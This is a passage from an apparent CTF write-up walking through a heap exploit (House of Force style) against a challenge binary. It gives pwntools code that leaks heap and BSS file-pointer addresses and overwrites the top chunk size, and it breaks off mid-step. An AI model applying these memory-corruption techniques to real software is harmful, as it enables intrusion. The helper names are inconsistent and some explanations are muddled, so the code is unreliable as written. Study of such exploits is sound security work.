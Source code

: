 ```py

def maketroopers(amount, data):
	p.sendlineafter(": ", "4")
	p.sendlineafter(": ", str(amount))
	p.sendlineafter(": ", data)
```


This will help us interact with the different functionalities of the binary, so without further ado let's start.

### Leak Heap Address

First we need to leak the heap address so we could just calculate the top_chunk address which will be used later to get the arbitrary chunk we want to overwrite.


```py
prep_starship(0x24, "A", 0x24)
# Leak heap
heap = r2d2()
log.info("HEAP:     %s" %(hex(heap)))
```

We will get the heap address.


### Leak file pointer from BSS

Since `file` is stored in the BSS section and is being printed we can get the address of heap easily :)

```py
fptr = darkside()
log.info("FILE ptr: %s" %(hex(fptr)))
```

### Overwrite `top_chunk` with `FFFFF`

Must be wondering why with `FFFFF`? Well, this is the largest value an unsigned integer can hold so we need to make the `top_chunk` to make the heap think like it can return almost any address.


```py
# Overwriting the top chunk with `0xfffffffffff` making it large enough
prepstarships(0x24, "FF", 0x40)
```


### Calculate the distance from `top_chunk` to the `file`


This step is important because we need to know the differnce between the address of the `file` and `top_chunk`. So, what we do here is first get the difference between the `main_arena` and the `heap_base`

We first leak the heap address and then attach the process to the `gdb` and subtract the leaked address from the `top_chunk` address:-
